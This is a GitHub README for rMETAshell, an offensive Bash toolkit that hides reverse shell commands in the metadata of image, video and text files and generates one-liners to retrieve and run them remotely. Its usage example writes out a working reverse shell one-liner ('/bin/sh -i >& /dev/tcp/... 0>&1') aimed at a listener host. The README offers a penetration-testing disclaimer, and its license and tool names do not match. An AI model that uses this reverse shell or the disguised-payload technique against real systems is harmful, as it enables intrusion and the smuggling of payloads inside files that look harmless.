 # THIS PROJECT IS UNDER CONSTANT DEVELOPMENT!

# rMETAshell - A Reverse Shell Metadata Injection and One-Liner Generation Toolkit
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 

<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!


# New!:

**New** one-liner execution methods!

**Supports** png, jpg, jpeg, jpe, jif, jfif, jfi, jp2, j2k, jpf, jpx, jp2a, j2c, tif, tiff, crw, cr2, dng, mrw, nef, pef, arw, rw2, sr2, srw, orf, png, gif, bmp, dib, ico, pgf, jp2, j2k, jpf, jpx, jp2a, j2c, avi, mov, qt, moov, f4v, mp4, m4a, m4b, m4p, m4v, mp4v, mqv, jp2, j2k, jpf, jpx, jp2a, j2c, mpg, mpeg, m2v, mpv, m2p, m1v, m1p, m4v, divx, xvid, txt, text, log, md, markdown, html, htm, xml, json, csv, tsv, sql, yml, yaml, ini, cfg, conf, properties, prop, props, bat, sh, bash, zsh, ps1, ps, py, python, rb, ruby, perl, pl, php, js, javascript, jsx, ts, typescript, java, c, cpp, h, cs, csharp, vb, vbnet, swift, kotlin, rust, go, groovy, scala, lua, r, sas, scss, sass, less, styl, sql, plsql, psql, tsql, vbs, vba, vbscript, powershell, ps1xml, psd1, psm1, tex, latex, ltx, bib, rtf, doc, docx, xls, xlsx, ppt, pptx and pdf injection!

# Description:

rMETAshell is a command-line tool for injecting a reverse shell command into the metadata and generating one-liner execution methods.

# How It Works:
rMETAshell takes a reverse shell command and an image, video or text file as input. It then injects the command into the file using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Metadata-Based Shell Injection: Inject reverse shell commands into image, video, and text file metadata, ensuring seamless integration with target systems.

One-Liner Generation: Automatically generate one-liners for quick and efficient remote shell access. Choose from a variety of execution methods tailored to different file formats.

Supported File Formats: rMETAshell supports the following file formats for shell injection and one-liner generation:

Image Formats: JPEG, PNG, BMP, and more.
Video Formats: MP4, AVI, MKV, and others.
Text Formats: TXT, CSV, XML, and more.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rMETAshell
   ```

2. Change to the project directory:

   ```
   cd rMETAshell
   ```

3. Make the script executable:

   ```
   chmod +x rMETAshell.sh
   ```

## Usage

```
./rMETAshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<FILENAME>` - The name of the media file.

**Example:**

```
./rMETAshell.sh "/bin/sh -i >& /dev/tcp/192.168.1.128/4444 0>&1" image.jpg
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rMETAshell.

**Warning: Ethical and Responsible Use Only
rMETAshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [AGPL-3.0 license](LICENSE).
